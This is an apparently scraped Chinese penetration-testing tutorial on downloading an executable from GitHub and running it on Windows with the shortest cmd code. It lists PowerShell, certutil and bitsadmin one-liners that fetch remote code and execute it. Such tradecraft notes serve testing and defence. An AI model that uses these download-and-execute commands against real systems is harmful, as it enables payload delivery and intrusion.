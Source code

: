 # title{downloadfile - 渗透技巧——从github下载文件的多种方法}

## 0x00 前言

------

本文源于一个有趣的问题：

已知exe文件：https://github.com/3gstudent/test/raw/master/putty.exe

Windows环境，需要将该exe释放到指定目录并执行，例如`c:\download`

**问：**`通过cmd实现的最短代码是多少字符？`

## 0x01 简介

------

本文将要介绍以下内容：

- 通过cmd实现从github下载文件的方法汇总
- 选出最短代码的实现方法

## 0x02 分析

------

在之前的文章《渗透技巧——通过cmd上传文件的N种方法》对通过命令行下载文件的方法做了汇总

而github支持https协议，并不支持http协议，所以在利用上需要注意一些问题，有些方法不支持http协议

## 0x03 可用方法汇总

------

### 1、powershell

```
powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\download\a.exe');start-process 'c:\download\a.exe'
```

### 2、certutil

```
certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\download\a.exe&&c:\download\a.exe
```

### 3、bitsadmin

```
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\download\a.exe && c:\download\a.exe
```
